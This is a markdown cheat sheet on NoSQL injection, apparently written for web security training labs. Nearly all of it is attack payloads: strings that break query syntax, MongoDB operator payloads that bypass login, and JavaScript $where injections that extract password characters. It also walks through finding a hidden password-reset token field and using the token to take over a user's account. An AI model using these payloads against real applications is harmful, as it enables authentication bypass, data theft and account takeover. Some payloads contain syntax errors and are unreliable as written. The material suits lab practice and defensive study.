



# NoSQL Injection - CHEATSHEET + MOST IMPORTANT LABS

## Cheat Sheet

```sql

'||0||'
'||1||'
'||true||'

-- BREAK SINTAX -- 

'
'''
'\''
' && 0 &&'x
' && 1 &&'x
`\u0000` 

-- LOGIN BYPASS --

{"$regex":"^foo.*"},
{"$ne":"foo"}
{"username": {"$regex": "^admin.*"}, "password": {"$ne": "test"} }
{"username": {"$ne": null}, "password": {"$ne": null} }
{"username": {"$ne": null}, "password": {"$ne": null}, "$where": "0" }
 
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["administrator", "admin", "carlos", "root",},"password":{"$gt":""}}

-- EXTRACT DATA --

administrator'%26%26this.password.length==20||'
administrator'%26%26this.password.[0]=='a       -- burp intruder

administator' && this.password.length < 30 || 'a'=='b'
administrator' && this.password[0]=='a' || 'a'=='b'

```

<br>

### Extract unknown fields

> **Object.keys(this)** → a native JavaScript method that returns **an array containing all enumerable keys** of an object.

In this context, the goal is to iterate through each field to determine which properties are present under the `"username"` object

```sql
{"username":"carlos","password":{"$ne":"test"},"$where":"Object.keys(this)[0].match('^.{0}a.*')"} --  burpintruder in {§§}§§
```





The field located at index **4** within the `"username"` object corresponds to `pwResetTkn`.

Using the same logic, we can identify the value associated with that field.

```sql
{"username":"carlos","password":{"$ne":"test"},"$where":"this.pwResetTkn.match('^.{0}a.*')"} --  burpintruder in {§§}§§
```




We use that token to change the carlos password.





